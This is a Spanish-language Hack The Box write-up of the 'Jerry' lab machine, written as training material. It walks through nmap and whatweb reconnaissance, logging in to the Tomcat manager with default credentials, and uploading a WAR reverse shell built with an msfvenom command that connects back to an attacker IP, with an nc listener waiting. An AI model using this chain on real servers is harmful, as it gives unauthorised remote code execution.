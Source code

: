 ```yaml
---
title: Writeup jerry - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - jerry
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina  jerry en Hack The Box.
keywords:
  - writeup  jerry
  - hack the box  jerry
  - resolución máquina  jerry
  - jerry hack the box
  - htb  jerry
---
```

--------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Windows/Jerry)
- 📺 **Resolución en vivo (completa)**: [Link]([Link](https://www.youtube.com/watch?v=NfEMX7-BFTo))

-------

#easy #windows #ping #nmap #tomcat #arbitraryfileupload #whatweb #msvenom #reverseshell #tratamientotty #rwrapncnlvp443

---------
# Guided Mode

1)¿Qué puerto TCP está abierto en el host remoto?
	8080

2)¿Qué servidor web se está ejecutando en el host remoto? Buscando dos palabras.
	apache tomcat

3)¿Qué ruta relativa en el servidor web lleva al Web Application Manager?
	/manager/html

4)¿Cuál es la combinación válida de nombre de usuario y contraseña para autenticarse en el gestor de aplicaciones web Tomcat? Dar la respuesta en el formato de nombre de usuario:contraseña
	tomcat:s3cret

5)¿Qué tipo de archivo puede cargarse y desplegarse en el servidor utilizando el Administrador de Aplicaciones Web Tomcat?
	war


-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.95
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.10.10.95 -oG allPorts
nmap -sCV -p8080 10.10.10.95 -oN target
```

![[Jerry1.png]]
![[Jerry2.png]]
*TTL:* Maquina windows
*Puertos:*
	``8080 `` HTTP 

--------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.95:8080/
```
![[Jerry3.png]]

![[Jerry7.png]]
Nos indica que esta el directorio /manager/html

---------
# [[Arbitrary file upload]] en tomcat

Entramos a la pagina principal y vemos que es un tomcat
![[Jerry5.png]]
Ponemos un usuario y contraseña para probar
![[Jerry6.png]]
Y en la pagina de error, nos muestra un usuario y contraseña que al probarlos, vemos que podemos ingresar al panel de tomcat
![[Jerry4.png]]

![[Jerry11.png]]
Vemos que podemos subir archivos .war. Asi que vamos a mandarnos una [[Reverse shell]]

-------
# [[Reverse shell]]

Con [[msfvenom]] creamos el archivo .war

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.11 LPORT=443 -f war -o shell.war
```

![[Jerry8.png]]
Creamos el archivo shell.war que lo vamos a subir a la pagina 

Ahora mientras estamos en escucha con [[rlwrap nc -lvnp 443]] vamos a ingresar a la pagina http://10.10.10.95:8080/shell/ para ejecutar el archivo shell.war que subimos anteriormente
Y listo ya estamos adentro de la maquina y podemos catear las flags
![[Jerry9.png]]

![[Jerry10.png]]

---------
# Notas

Tomcat es un servidor de aplicaciones desarrollado por Apache que permite ejecutar aplicaciones web escritas en Java. Funciona como contenedor de servlets y JSP, siguiendo la especificación Java EE. Escucha comúnmente en el puerto 8080. Es usado tanto en entornos de desarrollo como en producción.

----
# Creditos

[Writeup de territoriohacker](https://territoriohacker.com/htb-jerry/)